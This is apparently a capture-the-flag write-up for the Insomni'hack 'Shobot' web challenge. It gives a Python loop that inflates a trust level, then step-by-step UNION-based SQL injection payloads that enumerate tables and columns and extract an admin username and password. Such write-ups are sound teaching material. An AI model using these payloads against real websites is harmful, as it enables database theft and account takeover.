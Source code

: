 # Insomni'hack teaser - Shobot (web 200)
You were presented with an online store that sold robots. We didn't manage to solve this challenge in time.

### What we did correct
The website had a function running that calculates a user's trust level based on how many products he/she buys. If you tried any SQL injection in the URL parameters with low trust level, the server would detect it and lower your trust level. Once you reached the maximum trust level, you could successfully execute SQL injections.

### What we missed
We did not experiment with how far the trust level went, had we done that we would have reached 160 and our SQL injection would have gone through.

### What we did wrong
```python
import requests,time
s = requests.Session()
cookie= dict(PHPSESSID= 'f5hnhjd5qbiiebu9v057fe6m51')
while True:
    time.sleep(0.5)
    r = s.get('http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart', cookies=cookie)
    r = s.get('http://shobot.teaser.insomnihack.ch/?page=cartconfirm', cookies=cookie)
```

Once we had the above script running, boosting the trust level to 160, we could do SQL injection in one of the parameters.
We noticed that this worked, to verify there was an SQLi:

**ERROR**: `http://shobot.teaser.insomnihack.ch/?page=article&artid=2' and '1'='2`

**SUCCESS**: `http://shobot.teaser.insomnihack.ch/?page=article&artid=2' and '1'='1`
 
So next step would be to figure out how many columns there are by running the classic:
 
`2' order by 1 --`
 
But that didn't work, because the comment had to be url_encoded. The double dash comment (--) was also incorrect. In order for the query to work you would have to url_encode the # for comment.
What we should have done
The working query looks like this:
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=2' order by 5 %23`
 
By doing `2' order by N %23` you can find the number of columns in the query, this is necessary because the UNION operator can only be used if both queries have the same structure. Therefore the attacker needs to create a SELECT statement similar to the original query.

If you keep increasing `N` until you reach 6, the page will disappear, meaning the column count is 5. Now we know there are 5 columns and can continue like this (you do this directly to figure out the number of columns):
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=-2' union select 1,2,3,4,5 %23`
 
Notice the `-2`, in order for this to work you have to select a non existent id, putting a minus (-) sign usually get the job done. The numbers that shows on the page are the columns that you can interact with. The numbers 2, 3 and 5 showed, so we can do this:
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=-2' union select 1,@@version,3,4,5 %23`
 
Should show the mysql version. Now lets retrieve the tables so we know that we are working with:
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=-2' union select 1,group_concat(table_name),3,4,5 FROM information_schema.tables where table_schema=database() %23`
 
We are selecting from `information_schema.tables` which contains information about all the tables. Then we make sure the `table_schema` is set to the current database, meaning want tables for the current database. We have two tables, the result is: `article, shbt_user`. Now we can retrieve the column names from the shbt_user table:
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=-2' union select 1,group_concat(column_name),3,4,5 FROM information_schema.columns where table_schema=database() %23`
 
Result: `id,name,description,img_link,price,shbt_userid,shbt_username,shbt_userpassword`. Let's get the values for `shbt_username, shbt_userpassword` by running the following query:
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=-2' union select 1,concat(shbt_username,0x3a,shbt_userpassword),3,4,5 FROM shbt_user %23`
 
The result is: `sh0b0t4dm1n:N0T0R0B0TS$L4V3Ry`. Now we can login to the admin site and collect the **flag**: `INS{##r0b0tss!4v3ry1s!4m3}`

## What have we learned?
- Always try all the possible comment signs for mysql and always try to encode.
- Always experiment with values.

